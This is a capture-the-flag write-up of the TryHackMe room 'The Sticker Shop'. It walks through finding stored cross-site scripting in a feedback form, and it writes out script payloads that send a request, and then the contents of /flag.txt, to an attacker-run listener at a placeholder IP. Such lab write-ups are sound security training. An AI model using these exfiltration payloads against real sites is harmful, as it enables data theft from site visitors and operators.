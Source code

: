 ```yaml
---
title: The Sticker Shop - TryHackMe
date: 2025-03-02
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="The Sticker Shop"
    roomIcon="/ctf/tryhackme/the-sticker-shop/icon-room.png"
    roomLink="https://tryhackme.com/room/thestickershop"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge description

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web
development, so they decided to develop and host everything on the same computer that they use for browsing the internet
and looking at customer feedback. Smart move!

Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?

## Challenge Overview

This challenge revolves around identifying and exploiting a vulnerability in the sticker shop's feedback system to gain
access to a restricted flag file. The website allows user input through a feedback form, which is likely susceptible to
cross-site scripting (XSS). By injecting JavaScript, we aim to exploit this vulnerability and retrieve the flag.

## Web Enumeration

Navigating to `http://10.10.112.109:8080` presents us with the home page of the **Cat Sticker Shop**:

![The Sticker Shop](/ctf/tryhackme/the-sticker-shop/home.png)

The website also contains a **Feedback** page, which allows users to submit comments:

![Feedback](/ctf/tryhackme/the-sticker-shop/feedback.png)

Attempting to access `http://10.10.112.109:8080/flag.txt` directly results in an unauthorized access error:

![Unauthorized Flag Access](/ctf/tryhackme/the-sticker-shop/unauthorized.png)

Since the flag is inaccessible directly, we need to find an alternative way to retrieve its contents.

## Exploiting the Feedback Form

Given that the website allows user-submitted feedback, it is possible that the input is not sanitized properly. If the
application fails to escape user input before rendering it on the page, we can inject JavaScript (XSS) to perform
malicious actions.

### Proof of Concept (PoC)

To test for an XSS vulnerability, we use a simple payload that attempts to send a request to our external server.

#### Steps:

1. Set up a simple HTTP server to capture requests:

   ```bash
   python3 -m http.server 8000
   ```

2. Submit the following payload in the feedback form:

   ```html
   <script>fetch("http://<your-thm-ip>:8000")</script>
   ```

3. If the vulnerability exists, our HTTP server should receive an incoming request:

   ![Listener Output](/ctf/tryhackme/the-sticker-shop/poc.png)

Since our request was received, this confirms that the feedback form is vulnerable to stored XSS.

## Retrieving the Flag

Now that we have confirmed the vulnerability, we craft a payload to fetch the contents of `flag.txt` and send it to our
external listener.

### Exploit Payload:

```html
<script>
    fetch("/flag.txt")
        .then(response => response.text())
        .then(text => fetch("http://<your-thm-ip>:8000/?data=" + text));
</script>
```

### Steps to Execute:

1. Ensure your HTTP server is still running:

   ```bash
   python3 -m http.server 8000
   ```

2. Submit the payload in the feedback form.

3. Check your listener for incoming requests containing the flag:

   ![Flag Retrieved](/ctf/tryhackme/the-sticker-shop/flag.png)

By intercepting the request, we successfully retrieve the flag and complete the challenge!
